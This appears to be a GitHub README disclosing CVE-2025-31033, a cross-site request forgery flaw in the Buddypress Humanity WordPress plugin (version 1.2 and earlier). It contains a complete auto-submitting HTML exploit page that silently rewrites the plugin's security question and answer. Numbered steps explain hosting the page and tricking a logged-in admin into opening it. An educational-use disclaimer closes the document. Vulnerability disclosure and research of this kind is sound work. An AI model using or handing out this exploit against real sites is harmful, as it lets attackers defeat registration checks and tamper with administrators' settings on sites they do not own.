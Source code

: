 # ⚠️ CVE-2025-31033 - CSRF in WordPress Buddypress Humanity Plugin <= 1.2

## 🛡️ Vulnerability Summary

The **Buddypress Humanity** plugin for WordPress (version <= 1.2) is vulnerable to **Cross-Site Request Forgery (CSRF)**.  
This vulnerability allows an attacker to force a higher privileged user (e.g., admin) to unknowingly modify plugin settings (such as the security question and answer), bypassing user verification logic.

---

## 🐞 Vulnerability Type

- **Cross Site Request Forgery (CSRF)**
- **Component Affected**: `bph-settings` page (admin only)
- **CVE**: `CVE-2025-31033`
- **Risks** CVSS 9.8




---

## 🚨 Impact

If exploited successfully, this vulnerability allows attackers to:

- Change the **security question** and **answer** used during user registration
- Bypass humanity verification by knowing the new answer
- Automate user registration (possibly combined with privilege escalation)
- Abuse registration form protections without user interaction

---

## 🎯 Affected Plugin

- **Name**: Buddypress Humanity
- **Version**: ≤ 1.2
- **Slug**: `buddypress-humanity`
- **Tested on**: WordPress 6.x + BuddyPress active

---

## 💥 Proof of Concept (HTML Exploit)

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Exploit – CVE-2025-31033</title>
</head>
<body onload="document.forms[0].submit();">
  <form action="http://target.com/wp-admin/admin.php?page=bph-settings" method="POST">
    <input type="hidden" name="bph_option[bph_title]" value="Nxploited">
    <input type="hidden" name="bph_option[bph_question]" value="I’m Nxploited | Khaled Alenazi">
    <input type="hidden" name="bph_option[bph_answers]" value="Nxploit">
    <input type="hidden" name="bph_submit" value="1">
  </form>
</body>
</html>
```

> ☠️ Once this page is opened by an authenticated admin, it silently modifies the plugin settings.

---

## 🔧 How to Exploit

1. Host the PoC HTML on any external server.
2. Trick a logged-in WordPress admin into visiting the page.
3. Upon visit, their browser will silently submit the form.
4. The plugin's security question and answer will be updated.
5. The attacker can now register using the known answer.

---

## 🧪 Successful Exploitation Results In:

- Modified question: **I’m Nxploited | Khaled Alenazi**
- Modified answer: **Nxploit**
- Any user who inputs "Nxploit" will bypass verification.

---

## ⚠️ Disclaimer

> This proof of concept is for **educational purposes only**.  
> Use responsibly and **do not test on systems you do not own**.  
> The author is **not responsible** for any misuse or damage caused.

---

## 👤 By

**Nxploited | Khaled Alenazi**
